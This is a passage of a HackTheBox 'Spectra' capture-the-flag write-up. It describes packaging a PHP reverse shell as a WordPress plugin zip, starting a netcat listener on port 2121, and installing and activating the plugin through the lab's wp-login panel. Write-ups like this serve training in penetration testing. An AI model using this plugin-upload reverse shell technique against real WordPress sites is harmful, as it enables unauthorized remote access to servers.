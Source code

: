 Then we compress the PHP file into a `.zip` file. And of course start a nc listener.

```bash
┌──(root💀f4T1H)-[~/hackthebox/spectra]
└─> zip f4T1H.zip f4T1H.php    
  adding: f4T1H.php (deflated 19%)

┌──(root💀f4T1H)-[~/hackthebox/spectra]
└─> nc -lvnp 2121    
listening on [any] 2121 ...
```

After that, go authenticate wordpress panel from `http://spectra.htb/main/wp-login.php` and install the plugin.

![](src/plugininstall.png)

And activate the reverse shell plugin.
